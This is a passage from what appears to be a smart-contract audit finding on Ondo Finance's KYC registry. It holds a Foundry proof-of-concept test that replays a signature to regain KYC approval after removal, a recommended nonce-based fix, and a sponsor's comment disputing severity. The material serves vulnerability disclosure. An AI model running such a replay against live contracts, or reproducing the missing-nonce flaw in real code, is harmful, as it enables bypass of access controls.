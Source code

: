             assertEq(registry.kycState(kycGroup, attacker), false);
            assertEq(registry.getKYCStatus(kycGroup, attacker), false);
    
            vm.prank(attacker);
            registry.addKYCAddressViaSignature(kycGroup, attacker, deadline, v, r, s);
    
            assertEq(registry.kycState(kycGroup, attacker), true);
            assertEq(registry.getKYCStatus(kycGroup, attacker), true);
    
            address[] memory toBeRemovedAddrs = new address[](1);
            toBeRemovedAddrs[0] = attacker;
            // KYC approval was removed
            vm.prank(kycAgent);
            registry.removeKYCAddresses(kycGroup, toBeRemovedAddrs);
            vm.stopPrank();
            assertEq(registry.getKYCStatus(kycGroup, attacker), false);
    
            // KYC approval was granted again by replaying the original signature
            vm.prank(attacker);
            registry.addKYCAddressViaSignature(kycGroup, attacker, deadline, v, r, s);
            assertEq(registry.kycState(kycGroup, attacker), true);
            assertEq(registry.getKYCStatus(kycGroup, attacker), true);
        }
    
        function getStructHash(KYCApproval memory _approval) internal view returns (bytes32) {
            return keccak256(abi.encode(APPROVAL_TYPEHASH, _approval.kycRequirementGroup, _approval.user, _approval.deadline));
        }
    
        function getTypedDataHash(KYCApproval memory _approval) public view returns (bytes32) {
            return keccak256(abi.encodePacked("\x19\x01", DOMAIN_SEPARATOR, getStructHash(_approval)));
        }
    }

### [](#recommended-mitigation-steps-3)Recommended Mitigation Steps

A nonce mapping for message signers can be maintained; the value of which can be incremented for every successful signature validation.

    mapping(address => uint) private nonces;

A more detailed usage example can be found in OpenZeppelin’s EIP-2612 implementation.

[https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/extensions/ERC20Permit.sol#L90>](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/extensions/ERC20Permit.sol#L90%3E)

**[ali2251 (Ondo Finance) disagreed with severity and commented](https://github.com/code-423n4/2023-01-ondo-findings/issues/187#issuecomment-1410643360):**

> Timestamps prevent replay attacks. These timestamps are like 30 minutes long, so the attack is valid only within 30 minutes and we can change the timestamp to 5 minutes and then it becomes exteremely hard for this attack to happen. Within 5 minutes, a suer must add themselves, then Admin removed them, then they add themselves but once 5 minutes is over, the attacker can no longer add themselves and so the admin can just remove them after 5 minutes. It can be seen here that in tests we use 9 minutes: [https://github.com/code-423n4/2023-01-ondo/blob/f3426e5b6b4561e09460b2e6471eb694efdd6c70/forge-tests/cash/registry/RegistrySignature.t.sol#L57](https://github.com/code-423n4/2023-01-ondo/blob/f3426e5b6b4561e09460b2e6471eb694efdd6c70/forge-tests/cash/registry/RegistrySignature.t.sol#L57)
